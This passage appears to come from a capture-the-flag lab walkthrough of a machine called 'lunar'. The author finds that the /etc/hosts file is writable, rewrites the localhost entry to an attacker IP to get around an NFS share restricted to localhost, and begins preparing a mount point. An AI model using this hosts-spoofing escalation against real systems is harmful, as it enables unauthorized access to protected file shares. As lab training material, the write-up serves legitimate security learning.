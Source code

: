 Now lets check what files the network group has access to 

```
liam@lunar:~$ find / -group network 2>/dev/null
/etc/hosts
liam@lunar:~$ 
```

Cool we have access to edit the /etc/hosts file

Now if we remember we had nfs running but only localhost can mount the share

And a devices gets its localhost ip address from the /etc/hosts file 

Since we have full access to the /etc/hosts file we can therefore change the ip of the localhost to ours

```
127.0.0.1 localhost
```

Will be then replaced with

```
192.168.49.66 localhost
```

So lets do that 

Initial /etc/hosts file:

```
liam@lunar:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.0.1 lunar
liam@lunar:~$
```

Edited /etc/hosts file

```
liam@lunar:~$ cat /etc/hosts
192.168.49.66 localhost
127.0.0.1 lunar
liam@lunar:~$ 
```

Now to confirm if we can mount share now lets try it out 

First i'll create a directory for me to mount the nfs share 

```
┌──(mark__haxor)-[/mnt]
└─$ sudo mkdir mount 
                                                                                                                                                                                                                   
┌──(mark__haxor)-[/mnt]
└─$ ls     
mount
                                                                                                                                                                                                                   
┌──(mark__haxor)-[/mnt]
└─$ 
```
